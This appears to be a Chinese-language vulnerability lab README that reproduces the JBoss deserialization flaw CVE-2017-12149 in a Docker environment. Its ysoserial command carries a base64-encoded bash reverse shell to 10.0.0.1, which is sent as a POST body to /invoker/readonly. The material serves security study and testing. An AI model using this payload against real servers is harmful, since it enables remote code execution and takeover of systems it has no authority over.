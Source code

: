 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## 测试环境

运行测试环境

```
docker-compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![](img/1.png)

所以，我们用常规Java反序列化漏洞测试方法来复现该漏洞。

### 编写反弹shell的命令

我们使用bash来反弹shell，但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码。

工具：http://www.jackson-t.ca/runtime-exec-payloads.html

![](img/2.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送POC

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

![](img/3.png)

成功反弹shell：

![](img/4.png)
